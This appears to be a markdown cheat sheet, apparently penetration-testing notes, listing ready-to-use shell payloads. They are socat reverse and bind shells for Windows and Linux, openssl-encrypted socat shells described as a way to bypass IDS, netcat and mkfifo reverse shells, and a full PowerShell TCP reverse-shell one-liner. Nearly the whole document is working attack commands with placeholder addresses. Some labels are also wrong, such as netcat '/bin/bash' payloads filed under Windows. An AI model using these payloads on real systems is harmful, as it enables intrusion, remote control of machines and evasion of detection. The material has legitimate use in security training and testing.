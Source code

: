 ```bash

```

# Socat
Socat is similar to Netcat. It works as a connector between two points.

## Reverse Shells
### Syntax for A Listener/Attacker
* `socat TCP-L:<port> -` [ Two points (a listening port, and standard input) and connecting them together]
  
###  To Connect Back on A Windows Target
* `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` [The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.]
###  To Connect Back on A Linux Target
* `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

## Bind Shells
### On A Linux Target
* `socat TCP-L:<PORT> EXEC:"bash -li"`
### On A Windows Target
* `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
### Attacker (Regardless of target platform)
* `socat TCP:<TARGET-IP>:<TARGET-PORT> -`

## A Fully Stable TTY Reverse Shell Using Socat
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
We are passing in the current TTY as a file and setting the echo to be zero

<br> <br> <br><br> <br> <br>
# Socat Encrypted Shells
Encryption helps us bypass IDS <br>
We Will use OPENSSL instead of TCP <br>
## Generate A Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
## Merge 2 files into one
```bash
cat shell.key shell.crt > shell.pem
```
## Set Up Reverse Shell Listener on Attacker
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.
## To Connect Back on Target Machine
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

## Blind Shell
### Target
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

### Attacker
```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
------------------------------------------------------------------------------------------------------------------
<br> <br> <br><br> <br> <br>
# Common Shell Payloads
## Windows
### Bind Shell; Set Up A Listener
```bash
nc -lvnp <PORT> -e /bin/bash
```
### Reverse Shell; Connecting Back
```bash
nc <LOCAL-IP> <PORT> -e /bin/bash
```

## Linux
### Bind Shell; Create A Listener
```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

### Reverse Shell; Connecting Back
```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
### Create A PowerShell Reverse Shell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
* Replace the IP and port
* Will work on cmd.exe shell or webshell
